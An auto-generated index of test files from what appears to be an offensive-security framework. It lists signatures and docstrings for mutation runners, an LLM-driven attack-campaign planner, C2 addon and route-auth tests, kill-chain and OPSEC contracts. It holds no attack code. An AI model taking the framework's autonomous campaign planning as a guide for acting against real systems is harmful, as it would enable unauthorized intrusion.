#### `run_mutation_api_authz.py`
**Path:** `tests/run_mutation_api_authz.py`
**File Doc:** *Mutation testing runner for core.api_authz and core.logging.  Introduces targeted mutations into the production code and verifies that the test suite detects every one. A surviving mutant means the test is too weak and must be hardened.*

**Functions:**
- `_apply_mutation` (line 64) `def _apply_mutation(source, data)` - *Apply the mutation to *source*. Returns mutated string or None.*
- `_run_mutation_subprocess` (line 71) `def _run_mutation_subprocess(test)` - *Run pytest for *test*. Returns True if test PASSED (mutant survived).*
- `run` (line 83) `def run()` - *Run all mutations. Returns dict with killed/survived counts.*

#### `run_mutation_autonomous_ops.py`
**Path:** `tests/run_mutation_autonomous_ops.py`
**File Doc:** *Manual mutation runner for the LAZY port contracts.  Introduces targeted mutations into the integrated modules and verifies the scoped BDD suite detects each one.*

**Functions:**
- `backup_files` (line 59) `def backup_files(mutations, base_dir)` - *Snapshot original file contents.*
- `restore_files` (line 69) `def restore_files(backups, base_dir, mutations)` - *Restore original file contents.*
- `run_tests` (line 76) `def run_tests()` - *Run the scoped BDD targets and return True on success.*
- `main` (line 87) `def main()` - *Execute baseline then each mutation and report kills.*

#### `run_mutation_c2_route_auth.py`
**Path:** `tests/run_mutation_c2_route_auth.py`
**File Doc:** *Mutation gate for C2 route-level auth boundaries.  Removes the ``@requires_auth_or_session`` guard from one representative operator endpoint and asserts ``tests/test_c2_route_auth.py`` kills the mutant. Survival means an operator surface can drift back to anonymous without the suite noticing.*

**Functions:**
- `_run_tests` (line 29) `def _run_tests()`
- `main` (line 40) `def main()`

#### `run_mutation_contract_manifest.py`
**Path:** `tests/run_mutation_contract_manifest.py`
**File Doc:** *Mutation gate for the contract manifest drift checker.  Each mutation weakens one resolution rule in ``scripts/check_contract_manifest.py``. ``tests/test_contract_manifest.py`` must kill every mutant. Survival means a documented contract could drift without CI noticing.*

**Functions:**
- `_run_tests` (line 35) `def _run_tests()` - *Return True when the manifest test module passes.*
- `main` (line 47) `def main()` - *Run every mutant and return the process exit code.*

#### `run_mutation_infra_report.py`
**Path:** `tests/run_mutation_infra_report.py`
**File Doc:** *Mutation runner for the disposable infra and reporting contracts.  Applies targeted mutations to ``cli/commands/infra.py``, ``modules/c2_builder.py``, ``modules/professional_report.py``, and ``modules/redteam_gym.py``, verifying that ``tests/test_infra_disposable.py`` plus ``tests/test_bdd_infra_range_report.py`` detect each one.*

**Functions:**
- `backup_files` (line 92) `def backup_files(mutations, base_dir)` - *Snapshot mutated files for restoration.

Args:
    mutations: Mutation table.
    base_dir: Repository root.

Returns:
    Mapping of mutation name to original file content.*
- `restore_files` (line 110) `def restore_files(backups, base_dir, mutations)` - *Restore original file contents.

Args:
    backups: Original contents by mutation name.
    base_dir: Repository root.
    mutations: Mutation table.*
- `run_tests` (line 122) `def run_tests()` - *Run the scoped contract suites.

Returns:
    True when both suites pass.*
- `main` (line 137) `def main()` - *Execute the scoped mutation gate.

Returns:
    Process exit code, nonzero when a mutant survives.*

#### `run_mutation_killchain.py`
**Path:** `tests/run_mutation_killchain.py`
**File Doc:** *Manual mutation testing runner for the unified kill-chain contract.  Introduces targeted mutations (value swaps, logic inversions, security hardening removals) into the production kill-chain, beacon-history and auto-refresh code and verifies the test suite detects each one.  A surviving mutant means the tests are too weak to notice the behaviour change, which violates the kill-chain Definition of Done.*

**Functions:**
- `backup_files` (line 56) `def backup_files(mutations, base_dir)`
- `restore_files` (line 65) `def restore_files(backups, base_dir, mutations)`
- `run_tests` (line 71) `def run_tests()`
- `main` (line 81) `def main()`

#### `run_mutation_llm.py`
**Path:** `tests/run_mutation_llm.py`
**File Doc:** *Mutation runner for the LLM subsystem contract.  Applies targeted mutations to the surviving LLM modules and verifies that ``tests/test_llm_contract.py`` detects each one. A surviving mutant means the contract test is too weak.*

**Functions:**
- `backup_files` (line 60) `def backup_files(mutations, base_dir)`
- `restore_files` (line 69) `def restore_files(backups, base_dir, mutations)`
- `run_tests` (line 74) `def run_tests()`
- `main` (line 84) `def main()`

#### `run_mutation_no_shell.py`
**Path:** `tests/run_mutation_no_shell.py`
**File Doc:** *Mutation gate for the no-shell execution contract.  The scanner in ``tests/test_no_shell_execution.py`` must fail when a real ``os.system`` call or a manual ``sys.stdout`` assignment reappears. Each mutation injects one of those into a production file and asserts the scanner kills the mutant.*

**Functions:**
- `_run_tests` (line 25) `def _run_tests()` - *Return True when the no-shell contract tests pass.*
- `main` (line 37) `def main()` - *Run every mutant and return the process exit code.*

#### `run_mutation_opsec.py`
**Path:** `tests/run_mutation_opsec.py`
**File Doc:** *Mutation runner for the consolidated OPSEC scorer contract.  Applies targeted mutations to ``modules/opsec_scorer.py`` and verifies that ``tests/test_opsec_scorer_consolidated.py`` detects each one.*

**Functions:**
- `backup_files` (line 59) `def backup_files(mutations, base_dir)`
- `restore_files` (line 68) `def restore_files(backups, base_dir, mutations)`
- `run_tests` (line 73) `def run_tests()`
- `main` (line 83) `def main()`

#### `run_mutation_phase1.py`
**Path:** `tests/run_mutation_phase1.py`
**File Doc:** *Mutation testing runner for Phase 1 data-gap closure.  Introduces targeted mutations into the production code that correspond to the gaps we closed. If a mutant survives, the test suite failed to detect the regression — meaning the gap would silently reappear.  Mutations: 1. service_version back to add_note        — should kill test_phase1_data_gaps 2. domain handler removed                  — should kill test_phase1_data_gaps 3. email handler removed                   — should kill test_phase1_data_gaps 4. _EmailExtractor not registered          — should kill test_phase1_data_gaps 5. _emails.clear() missing from reset      — should kill test_phase1_data_gaps 6. metadata port removed from extractor    — should kill test_phase1_data_gaps 7. credential_aware_rank without boost     — should kill test_phase1_data_gaps 8. GraphTopologySignal wired incorrectly   — should kill test_phase1_data_gaps*

**Functions:**
- `backup_files` (line 138) `def backup_files(mutations, base_dir)`
- `restore_files` (line 147) `def restore_files(backups, base_dir, mutations)`
- `run_tests` (line 153) `def run_tests()`
- `main` (line 164) `def main()`

#### `run_mutation_shell_semantics.py`
**Path:** `tests/run_mutation_shell_semantics.py`
**File Doc:** *Mutation gate for shell semantics and colored output.  Each mutation removes one rule from the shell-semantics contract and asserts the matching test fails. Survival means the regression guard is not wired.*

**Functions:**
- `_run_tests` (line 41) `def _run_tests()` - *Return True when the shell-semantics tests pass.*
- `main` (line 53) `def main()` - *Run every mutant and return the process exit code.*

#### `run_mutation_tests.py`
**Path:** `tests/run_mutation_tests.py`
**File Doc:** *Manual mutation testing runner for LazyOwn connectivity improvements.  Introduces targeted mutations (inversions, deletions, value swaps) into the production code and verifies that the test suite detects them.  A surviving mutant means the test is too weak — it should catch the mutation.*

**Functions:**
- `backup_files` (line 69) `def backup_files(mutations, base_dir)`
- `restore_files` (line 78) `def restore_files(backups, base_dir, mutations)`
- `run_tests` (line 84) `def run_tests()`
- `main` (line 103) `def main()`

#### `run_mutation_ux_usability.py`
**Path:** `tests/run_mutation_ux_usability.py`
**File Doc:** *Mutation testing runner for the UX usability contracts.  Introduces targeted mutations into the production code that revert the fixes this work shipped. If a mutant survives, the test suite failed to detect the regression — meaning the usability gap would silently reappear.  Mutations: 1. off level no longer suppresses surfaces        — killed by test_tips_engine 2. minimal level runs the full surface set        — killed by test_tips_engine 3. contextual_help drops canonical phase labels   — killed by test_phase_labels 4. canonical command count drifts by one          — killed by test_sync_doc_stats*

**Functions:**
- `_run_tests` (line 60) `def _run_tests()`
- `_backups` (line 71) `def _backups(mutations)`
- `_restore` (line 79) `def _restore(backups, mutations)`
- `main` (line 84) `def main()`

#### `test_aci_planner.py`
**Path:** `tests/test_aci_planner.py`
**File Doc:** *tests/test_aci_planner.py ========================= Test suite for skills/aci_planner.py (Autonomous Campaign Intelligence).  All tests use tmp_path / tempfile for isolation. No real LLM calls — Groq requests are patched at urllib.request.urlopen. No real filesystem side-effects outside tmp_path.*

**Classes:**
- `TestACIGoal` (line 111) `class TestACIGoal`
- `TestAttackPhase` (line 134) `class TestAttackPhase`
- `TestACIPlan` (line 177) `class TestACIPlan`
- `TestACIPlannerStatic` (line 244) `class TestACIPlannerStatic`
- `TestACIPlannerLLM` (line 345) `class TestACIPlannerLLM`
- `TestACIEngineStatus` (line 421) `class TestACIEngineStatus`
- `TestACIEngineShouldReplan` (line 462) `class TestACIEngineShouldReplan`
- `TestACIEngineReplan` (line 522) `class TestACIEngineReplan`
- `TestACIEngineComplete` (line 596) `class TestACIEngineComplete`
- `TestACIReflector` (line 626) `class TestACIReflector`
- `TestMCPBridges` (line 723) `class TestMCPBridges`
- `TestPersistenceHelpers` (line 829) `class TestPersistenceHelpers`
- `TestCLI` (line 914) `class TestCLI`

**Functions:**
- `_make_goal` (line 33) `def _make_goal()`
- `_patched_paths` (line 47) `def _patched_paths(tmp_path)` - *Return a dict of patch targets → tmp_path values for aci_planner globals.*
- `_start_patches` (line 60) `def _start_patches(tmp_path)`
- `_stop_patches` (line 77) `def _stop_patches(patchers)`
- `_make_planner` (line 82) `def _make_planner(tmp_path, api_key)`
- `_make_engine` (line 94) `def _make_engine(tmp_path, api_key)`

**Methods:**
- `test_fields` (line 112) `def test_fields(self)`
- `test_defaults` (line 122) `def test_defaults(self)`
- `test_to_dict_round_trip` (line 135) `def test_to_dict_round_trip(self)`
- `test_from_dict_ignores_extra_keys` (line 154) `def test_from_dict_ignores_extra_keys(self)`
- `_make_plan` (line 178) `def _make_plan(self, phase_statuses)`
- `test_completion_pct_all_done` (line 204) `def test_completion_pct_all_done(self)`
- `test_completion_pct_none_done` (line 208) `def test_completion_pct_none_done(self)`
- `test_completion_pct_partial` (line 212) `def test_completion_pct_partial(self)`
- `test_active_phase_returns_first_pending_or_active` (line 216) `def test_active_phase_returns_first_pending_or_active(self)`
- `test_active_phase_none_when_all_done` (line 221) `def test_active_phase_none_when_all_done(self)`
- `test_to_dict_has_completion_pct` (line 225) `def test_to_dict_has_completion_pct(self)`
- `test_round_trip` (line 231) `def test_round_trip(self)`
- `test_plan_creates_file` (line 245) `def test_plan_creates_file(self, tmp_path)`
- `test_plan_has_phases` (line 252) `def test_plan_has_phases(self, tmp_path)`
- `test_first_phase_is_active` (line 257) `def test_first_phase_is_active(self, tmp_path)`
- `test_subsequent_phases_are_pending` (line 262) `def test_subsequent_phases_are_pending(self, tmp_path)`
- `test_objectives_injected_into_file` (line 268) `def test_objectives_injected_into_file(self, tmp_path)`
- `test_objectives_ids_match_phase_objectives` (line 276) `def test_objectives_ids_match_phase_objectives(self, tmp_path)`
- `test_phase_filter_restricts_phases` (line 287) `def test_phase_filter_restricts_phases(self, tmp_path)`
- `test_objective_source_is_aci_planner` (line 293) `def test_objective_source_is_aci_planner(self, tmp_path)`
- `test_plan_status_is_active` (line 302) `def test_plan_status_is_active(self, tmp_path)`
- `test_plan_id_is_unique` (line 307) `def test_plan_id_is_unique(self, tmp_path)`
- `test_plan_target_stored` (line 313) `def test_plan_target_stored(self, tmp_path)`
- `test_plan_domain_stored` (line 318) `def test_plan_domain_stored(self, tmp_path)`
- `test_objectives_contain_target_in_text` (line 323) `def test_objectives_contain_target_in_text(self, tmp_path)`
- `test_plan_roundtrip_from_disk` (line 330) `def test_plan_roundtrip_from_disk(self, tmp_path)`
- `_llm_response` (line 346) `def _llm_response(self, phases)`
- `test_llm_phases_used_when_api_key_set` (line 355) `def test_llm_phases_used_when_api_key_set(self, tmp_path)`
- `test_llm_objectives_injected` (line 380) `def test_llm_objectives_injected(self, tmp_path)`
- `test_llm_failure_falls_back_to_static` (line 399) `def test_llm_failure_falls_back_to_static(self, tmp_path)`
- `test_llm_bad_json_falls_back_to_static` (line 407) `def test_llm_bad_json_falls_back_to_static(self, tmp_path)`
- `test_status_no_plan` (line 422) `def test_status_no_plan(self, tmp_path)`
- `test_status_with_plan` (line 427) `def test_status_with_plan(self, tmp_path)`
- `test_status_has_active_phase` (line 437) `def test_status_has_active_phase(self, tmp_path)`
- `test_status_completion_zero_at_start` (line 444) `def test_status_completion_zero_at_start(self, tmp_path)`
- `test_status_blocked_count_zero_at_start` (line 451) `def test_status_blocked_count_zero_at_start(self, tmp_path)`
- `_write_objectives_blocked` (line 463) `def _write_objectives_blocked(self, obj_file, obj_ids)`
- `test_should_replan_false_when_no_plan` (line 483) `def test_should_replan_false_when_no_plan(self, tmp_path)`
- `test_should_replan_false_below_threshold` (line 487) `def test_should_replan_false_below_threshold(self, tmp_path)`
- `test_should_replan_true_at_threshold` (line 496) `def test_should_replan_true_at_threshold(self, tmp_path)`
- `test_should_replan_false_for_completed_plan` (line 507) `def test_should_replan_false_for_completed_plan(self, tmp_path)`
- `test_replan_no_plan` (line 523) `def test_replan_no_plan(self, tmp_path)`
- `test_replan_increments_count` (line 529) `def test_replan_increments_count(self, tmp_path)`
- `test_replan_records_reason` (line 536) `def test_replan_records_reason(self, tmp_path)`
- `test_replan_injects_new_objectives` (line 543) `def test_replan_injects_new_objectives(self, tmp_path)`
- `test_replan_status_returns_to_active` (line 553) `def test_replan_status_returns_to_active(self, tmp_path)`
- `test_replan_twice_counts_two` (line 560) `def test_replan_twice_counts_two(self, tmp_path)`
- `test_replan_with_llm` (line 568) `def test_replan_with_llm(self, tmp_path)`
- `test_complete_archives_plan` (line 597) `def test_complete_archives_plan(self, tmp_path)`
- `test_complete_marks_plan_as_completed` (line 607) `def test_complete_marks_plan_as_completed(self, tmp_path)`
- `test_complete_no_plan` (line 617) `def test_complete_no_plan(self, tmp_path)`
- `_make_plan_with_statuses` (line 627) `def _make_plan_with_statuses(self, phase_statuses, replan_count)`
- `test_reflect_blocked_phase_generates_lesson` (line 655) `def test_reflect_blocked_phase_generates_lesson(self, tmp_path)`
- `test_reflect_done_after_replan_generates_lesson` (line 665) `def test_reflect_done_after_replan_generates_lesson(self, tmp_path)`
- `test_reflect_no_lessons_clean_plan` (line 674) `def test_reflect_no_lessons_clean_plan(self, tmp_path)`
- `test_reflect_persists_to_file` (line 683) `def test_reflect_persists_to_file(self, tmp_path)`
- `test_reflect_lesson_has_required_fields` (line 698) `def test_reflect_lesson_has_required_fields(self, tmp_path)`
- `test_mcp_aci_status_no_plan` (line 724) `def test_mcp_aci_status_no_plan(self, tmp_path)`
- `test_mcp_aci_plan_returns_json` (line 734) `def test_mcp_aci_plan_returns_json(self, tmp_path)`
- `test_mcp_aci_plan_uses_rhost_from_payload` (line 747) `def test_mcp_aci_plan_uses_rhost_from_payload(self, tmp_path)`
- `test_mcp_aci_plan_static_backend` (line 758) `def test_mcp_aci_plan_static_backend(self, tmp_path)`
- `test_mcp_aci_replan_no_plan` (line 769) `def test_mcp_aci_replan_no_plan(self, tmp_path)`
- `test_mcp_aci_replan_with_plan` (line 780) `def test_mcp_aci_replan_with_plan(self, tmp_path)`
- `test_mcp_aci_status_after_plan` (line 793) `def test_mcp_aci_status_after_plan(self, tmp_path)`
- `test_mcp_aci_plan_phase_filter` (line 806) `def test_mcp_aci_plan_phase_filter(self, tmp_path)`
- `test_save_load_plan_roundtrip` (line 830) `def test_save_load_plan_roundtrip(self, tmp_path)`
- `test_load_plan_returns_none_for_missing` (line 845) `def test_load_plan_returns_none_for_missing(self, tmp_path)`
- `test_load_plan_returns_none_for_corrupt` (line 851) `def test_load_plan_returns_none_for_corrupt(self, tmp_path)`
- `test_archive_plan_appends` (line 859) `def test_archive_plan_appends(self, tmp_path)`
- `test_count_objectives_by_status` (line 876) `def test_count_objectives_by_status(self, tmp_path)`
- `test_count_objectives_returns_empty_for_missing_file` (line 904) `def test_count_objectives_returns_empty_for_missing_file(self, tmp_path)`
- `test_plan_command` (line 915) `def test_plan_command(self, tmp_path)`
- `test_status_command_no_plan` (line 926) `def test_status_command_no_plan(self, tmp_path, capsys)`
- `test_replan_command_no_plan` (line 940) `def test_replan_command_no_plan(self, tmp_path, capsys)`
- `test_no_subcommand_returns_nonzero` (line 954) `def test_no_subcommand_returns_nonzero(self, tmp_path)`
- `test_reflect_command_no_plan` (line 960) `def test_reflect_command_no_plan(self, tmp_path, capsys)`

#### `test_addon_creator.py`
**Path:** `tests/test_addon_creator.py`
**File Doc:** *Tests for the LazyAddon creator contract and C2 blueprint.  Covers the SDD contract in ``lazyc2/addon_creator.py`` and the Flask blueprint in ``lazyc2/blueprints/addons.py``.  BDD scenarios: - Given a valid form, when validated and rendered, the document loads in the CLI loader schema and round-trips through the store - Given an invalid name, when validated, a name issue is reported - Given an unknown placeholder, when validated, a field issue is reported so the operator cannot ship a typo silently - Given a path traversal attempt, when saved, the store rejects it - Given a CSRF-less POST, when creating or deleting, the server answers 403 - Given a form POST with the issued token, when creating, the file appears under the addons directory and the client is redirected*

**Classes:**
- `TestConfig` (line 86) `class TestConfig` - *The config class must centralise every option, pattern, and limit.*
- `TestValidator` (line 117) `class TestValidator` - *BDD: validation guards the operator against mistakes.*
- `TestYamlRenderer` (line 263) `class TestYamlRenderer` - *BDD: the rendered document satisfies the CLI loader schema.*
- `TestAddonStore` (line 328) `class TestAddonStore` - *BDD: persistence is path-safe, atomic, and idempotent.*
- `TestParseAddonForm` (line 460) `class TestParseAddonForm` - *BDD: raw form data becomes a draft with correct semantics.*
- `TestBlueprint` (line 591) `class TestBlueprint` - *BDD: the C2 endpoints guard against CSRF and persist valid forms.*
- `TestTemplateSanity` (line 805) `class TestTemplateSanity` - *The shipped templates must stay renderable and tooltip rich.*
- `_FakeOperator` (line 570) `class _FakeOperator(UserMixin)` - *Minimal Flask-Login user for session simulation.*

**Functions:**
- `_valid_draft` (line 45) `def _valid_draft()` - *Return a draft that passes every validation rule.*
- `_build_test_app` (line 521) `def _build_test_app(tmp_path)` - *Build a Flask test app with the addons blueprint registered.

The base layout references many monolith endpoints; stub rules are
registered so template rendering never depends on ``lazyc2.py``.
Flask-Login is wired in so the session guard can be exercised.

Args:
    tmp_path: The directory that receives addon files.

Returns:
    A configured Flask application.*
- `_login` (line 585) `def _login(client)` - *Log the test client in through the Flask session.*
- `_load_user` (line 577) `def _load_user(user_id)`

**Methods:**
- `test_name_pattern_rejects_traversal` (line 89) `def test_name_pattern_rejects_traversal(self)`
- `test_patterns_accept_canonical_values` (line 96) `def test_patterns_accept_canonical_values(self)`
- `test_os_options_cover_mitre_platforms` (line 105) `def test_os_options_cover_mitre_platforms(self)`
- `test_payload_placeholders_cover_core_keys` (line 111) `def test_payload_placeholders_cover_core_keys(self)`
- `test_valid_draft_has_no_issues` (line 120) `def test_valid_draft_has_no_issues(self)`
- `test_missing_name_reports_issue` (line 125) `def test_missing_name_reports_issue(self)`
- `test_invalid_name_reports_issue` (line 131) `def test_invalid_name_reports_issue(self)`
- `test_missing_description_reports_issue` (line 138) `def test_missing_description_reports_issue(self)`
- `test_unknown_os_reports_issue` (line 144) `def test_unknown_os_reports_issue(self)`
- `test_unknown_module_type_reports_issue` (line 150) `def test_unknown_module_type_reports_issue(self)`
- `test_malformed_category_reports_issue` (line 156) `def test_malformed_category_reports_issue(self)`
- `test_uppercase_trigger_reports_issue` (line 162) `def test_uppercase_trigger_reports_issue(self)`
- `test_missing_execute_command_reports_issue` (line 168) `def test_missing_execute_command_reports_issue(self)`
- `test_unknown_placeholder_reports_issue` (line 174) `def test_unknown_placeholder_reports_issue(self)`
- `test_nested_brace_placeholder_reports_issue` (line 180) `def test_nested_brace_placeholder_reports_issue(self)`
- `test_declared_param_placeholder_is_allowed` (line 186) `def test_declared_param_placeholder_is_allowed(self)`
- `test_install_path_without_repo_url_reports_issue` (line 192) `def test_install_path_without_repo_url_reports_issue(self)`
- `test_traversal_install_path_reports_issue` (line 198) `def test_traversal_install_path_reports_issue(self)`
- `test_bad_repo_url_reports_issue` (line 205) `def test_bad_repo_url_reports_issue(self)`
- `test_duplicate_param_reports_issue` (line 212) `def test_duplicate_param_reports_issue(self)`
- `test_param_without_description_reports_issue` (line 218) `def test_param_without_description_reports_issue(self)`
- `test_integer_default_must_parse` (line 224) `def test_integer_default_must_parse(self)`
- `test_boolean_default_whitelist` (line 232) `def test_boolean_default_whitelist(self)`
- `test_too_many_params_reports_issue` (line 240) `def test_too_many_params_reports_issue(self)`
- `test_malformed_env_entry_reports_issue` (line 249) `def test_malformed_env_entry_reports_issue(self)`
- `test_validation_error_carries_issues` (line 255) `def test_validation_error_carries_issues(self)`
- `test_rendered_document_is_canonical` (line 266) `def test_rendered_document_is_canonical(self)`
- `test_yaml_round_trips_through_loader` (line 286) `def test_yaml_round_trips_through_loader(self)`
- `test_optional_fields_are_dropped` (line 295) `def test_optional_fields_are_dropped(self)`
- `test_rendered_yaml_has_no_none_values` (line 310) `def test_rendered_yaml_has_no_none_values(self)`
- `test_default_author_and_version_applied` (line 315) `def test_default_author_and_version_applied(self)`
- `test_save_load_delete_round_trip` (line 331) `def test_save_load_delete_round_trip(self, tmp_path)`
- `test_traversal_name_rejected_on_save` (line 342) `def test_traversal_name_rejected_on_save(self, tmp_path)`
- `test_traversal_name_rejected_on_load` (line 347) `def test_traversal_name_rejected_on_load(self, tmp_path)`
- `test_traversal_name_rejected_on_delete` (line 352) `def test_traversal_name_rejected_on_delete(self, tmp_path)`
- `test_save_is_atomic_and_leaves_no_temp_files` (line 357) `def test_save_is_atomic_and_leaves_no_temp_files(self, tmp_path)`
- `test_save_overwrites_cleanly` (line 363) `def test_save_overwrites_cleanly(self, tmp_path)`
- `test_load_missing_raises_file_not_found` (line 369) `def test_load_missing_raises_file_not_found(self, tmp_path)`
- `test_list_all_skips_broken_files` (line 374) `def test_list_all_skips_broken_files(self, tmp_path)`
- `test_list_all_is_sorted_and_has_expected_keys` (line 383) `def test_list_all_is_sorted_and_has_expected_keys(self, tmp_path)`
- `test_list_all_reports_file_stem_as_filename` (line 400) `def test_list_all_reports_file_stem_as_filename(self, tmp_path)`
- `test_load_accepts_pre_existing_uppercase_names` (line 407) `def test_load_accepts_pre_existing_uppercase_names(self, tmp_path)`
- `test_load_accepts_pre_existing_dots_and_hyphens` (line 413) `def test_load_accepts_pre_existing_dots_and_hyphens(self, tmp_path)`
- `test_load_still_rejects_traversal_through_existing_path` (line 419) `def test_load_still_rejects_traversal_through_existing_path(self, tmp_path)`
- `test_delete_rejects_unsafe_existing_names` (line 425) `def test_delete_rejects_unsafe_existing_names(self, tmp_path)`
- `test_missing_directory_lists_empty` (line 430) `def test_missing_directory_lists_empty(self, tmp_path)`
- `test_exists_swallows_invalid_names` (line 434) `def test_exists_swallows_invalid_names(self, tmp_path)`
- `test_symlink_escape_rejected_on_load` (line 438) `def test_symlink_escape_rejected_on_load(self, tmp_path)`
- `test_symlink_escape_rejected_on_delete` (line 448) `def test_symlink_escape_rejected_on_delete(self, tmp_path)`
- `test_parse_complete_form` (line 463) `def test_parse_complete_form(self)`
- `test_unchecked_enabled_becomes_false` (line 505) `def test_unchecked_enabled_becomes_false(self)`
- `test_missing_optional_fields_become_empty` (line 509) `def test_missing_optional_fields_become_empty(self)`
- `test_single_trigger_string_becomes_list` (line 516) `def test_single_trigger_string_becomes_list(self)`
- `test_unauthenticated_access_redirects_to_login` (line 594) `def test_unauthenticated_access_redirects_to_login(self, tmp_path)`
- `test_create_form_issues_csrf_cookie` (line 602) `def test_create_form_issues_csrf_cookie(self, tmp_path)`
- `test_post_without_csrf_is_rejected` (line 612) `def test_post_without_csrf_is_rejected(self, tmp_path)`
- `test_delete_without_csrf_is_rejected` (line 619) `def test_delete_without_csrf_is_rejected(self, tmp_path)`
- `_form_data` (line 626) `def _form_data(self)` - *Return a complete valid form payload for the creation route.*
- `_csrf_token` (line 650) `def _csrf_token(self, client)` - *Fetch the creation page and extract the embedded form token.*
- `test_valid_post_creates_addon_and_redirects` (line 660) `def test_valid_post_creates_addon_and_redirects(self, tmp_path)`
- `test_invalid_post_rerenders_with_field_errors` (line 673) `def test_invalid_post_rerenders_with_field_errors(self, tmp_path)`
- `test_duplicate_name_rerenders_with_error` (line 685) `def test_duplicate_name_rerenders_with_error(self, tmp_path)`
- `test_view_page_renders_yaml` (line 698) `def test_view_page_renders_yaml(self, tmp_path)`
- `test_list_page_shows_created_addon` (line 710) `def test_list_page_shows_created_addon(self, tmp_path)`
- `test_delete_removes_addon` (line 722) `def test_delete_removes_addon(self, tmp_path)`
- `test_delete_unknown_addon_flashes_and_redirects` (line 734) `def test_delete_unknown_addon_flashes_and_redirects(self, tmp_path)`
- `test_view_unknown_addon_redirects_to_list` (line 744) `def test_view_unknown_addon_redirects_to_list(self, tmp_path)`
- `test_view_legacy_uppercase_addon_renders` (line 751) `def test_view_legacy_uppercase_addon_renders(self, tmp_path)`
- `test_list_page_links_by_filename_for_legacy_names` (line 764) `def test_list_page_links_by_filename_for_legacy_names(self, tmp_path)`
- `test_delete_legacy_uppercase_addon` (line 774) `def test_delete_legacy_uppercase_addon(self, tmp_path)`
- `test_rendered_addon_passes_cli_schema_contract` (line 786) `def test_rendered_addon_passes_cli_schema_contract(self, tmp_path)` - *The file produced through HTTP satisfies the CLI loader schema.*
- `test_creator_template_has_help_affordances` (line 808) `def test_creator_template_has_help_affordances(self)`
- `test_creator_template_forbids_emojis_and_console_spam` (line 816) `def test_creator_template_forbids_emojis_and_console_spam(self)`
- `test_tools_creator_template_has_no_broken_js` (line 821) `def test_tools_creator_template_has_no_broken_js(self)`

#### `test_aes_key_propagation.py`
**Path:** `tests/test_aes_key_propagation.py`
**File Doc:** *TDD tests for the AES key resolution contract.  Contract: ``core.config.resolve_aes_key`` returns a 32-byte key derived from a configuration value, an existing on-disk key, or a freshly generated one. The resolved key is exposed on :class:`Config` as ``self.aes_key`` (bytes) and through the legacy ``self.params['aes_key']`` access path (hex string).  Invariants:  1. When ``aes_key`` in the payload is a 64-char hex string, it is decoded into 32 bytes and used as-is. 2. When ``aes_key`` is empty/missing, an on-disk key under ``sessions/key.aes`` is loaded if present. 3. When neither exists, ``os.urandom(32)`` is generated and persisted with mode ``0o600``. 4. An invalid hex string of the wrong length raises ``ValueError``. 5. After ``Config(...)`` is built, ``self.aes_key`` is always 32 bytes.*

**Classes:**
- `TestHexSource` (line 32) `class TestHexSource` - *A 64-char hex in the payload becomes 32 bytes.*
- `TestDiskSource` (line 57) `class TestDiskSource` - *An on-disk key is loaded when the payload is empty.*
- `TestGeneratedSource` (line 67) `class TestGeneratedSource` - *A fresh key is generated when nothing else is available.*
- `TestConfigExposesKey` (line 83) `class TestConfigExposesKey` - *The resolved key is reachable from :class:`Config`.*

**Methods:**
- `test_valid_hex_decodes_to_32_bytes` (line 35) `def test_valid_hex_decodes_to_32_bytes(self)`
- `test_wrong_length_raises` (line 42) `def test_wrong_length_raises(self)`
- `test_non_hex_raises` (line 49) `def test_non_hex_raises(self)`
- `test_existing_disk_key_is_loaded` (line 60) `def test_existing_disk_key_is_loaded(self, tmp_path)`
- `test_generated_key_is_32_bytes` (line 70) `def test_generated_key_is_32_bytes(self, tmp_path)`
- `test_generated_key_is_persisted` (line 75) `def test_generated_key_is_persisted(self, tmp_path)`
- `test_config_has_aes_key_attribute` (line 86) `def test_config_has_aes_key_attribute(self)`
- `test_config_exposes_params_dict` (line 91) `def test_config_exposes_params_dict(self)`

#### `test_ai_commands_llm.py`
**Path:** `tests/test_ai_commands_llm.py`
**File Doc:** *Behavioural tests for the resurrected ``ask``/``groq`` commands.  Pins the functional gap closure: ``do_ask`` answers through the configured ``llm_backend`` and ``do_groq`` through the explicit Groq backend, both in-process via the canonical factory/adapter contracts. No subprocess, no network, no shell is exercised.*

**Classes:**
- `TestDoAsk` (line 26) `class TestDoAsk`
- `TestDoGroq` (line 53) `class TestDoGroq`
- `_Backend` (line 71) `class _Backend`
- `_Backend` (line 93) `class _Backend`
- `_Backend` (line 106) `class _Backend`

**Functions:**
- `_command_set` (line 17) `def _command_set()`
- `_raise` (line 57) `def _raise()`
- `_factory` (line 77) `def _factory()`

**Methods:**
- `test_empty_question_prints_usage` (line 27) `def test_empty_question_prints_usage(self, monkeypatch)`
- `test_question_forwarded_with_session_context` (line 33) `def test_question_forwarded_with_session_context(self, monkeypatch)`
- `test_backend_error_surfaces_as_message` (line 45) `def test_backend_error_surfaces_as_message(self, monkeypatch)`
- `test_unavailable_backend_prints_actionable_error` (line 54) `def test_unavailable_backend_prints_actionable_error(self, monkeypatch)`
- `test_success_completes_oneliner_and_prints` (line 66) `def test_success_completes_oneliner_and_prints(self, monkeypatch)`
- `test_completion_failure_prints_error` (line 90) `def test_completion_failure_prints_error(self, monkeypatch)`
- `test_empty_line_falls_back_to_shell_prompt` (line 103) `def test_empty_line_falls_back_to_shell_prompt(self, monkeypatch)`
- `complete` (line 72) `def complete(self, system, user)`
- `complete` (line 94) `def complete(self, system, user)`
- `complete` (line 107) `def complete(self, system, user)`

#### `test_api_authz.py`
**Path:** `tests/test_api_authz.py`
**File Doc:** *Tests for ``core.api_authz`` — tenant-bound API authorization.  Covers ApiAuthzConfig, ApiKey, ApiKeyStore, require_api_auth decorator, and create_api_token helper.*

**Classes:**
- `TestApiAuthzConfig` (line 21) `class TestApiAuthzConfig` - *Behaviour of the ApiAuthzConfig dataclass.*
- `TestApiKey` (line 45) `class TestApiKey` - *Behaviour of the ApiKey data class.*
- `TestApiKeyStore` (line 102) `class TestApiKeyStore` - *Behaviour of the ApiKeyStore persistence layer.*
- `TestRequireApiAuth` (line 288) `class TestRequireApiAuth` - *Behaviour of the require_api_auth Flask decorator.*
- `TestCreateApiToken` (line 377) `class TestCreateApiToken` - *Behaviour of the create_api_token convenience helper.*
- `TestEdgeCases` (line 423) `class TestEdgeCases` - *Edge-case and security boundary tests for api_authz.*

**Functions:**
- `secure` (line 313) `def secure()`
- `g_check` (line 318) `def g_check()`
- `admin_only` (line 328) `def admin_only()`

**Methods:**
- `test_defaults_are_secure_by_default` (line 24) `def test_defaults_are_secure_by_default(self)`
- `test_custom_overrides_preserve_typed_semantics` (line 32) `def test_custom_overrides_preserve_typed_semantics(self)`
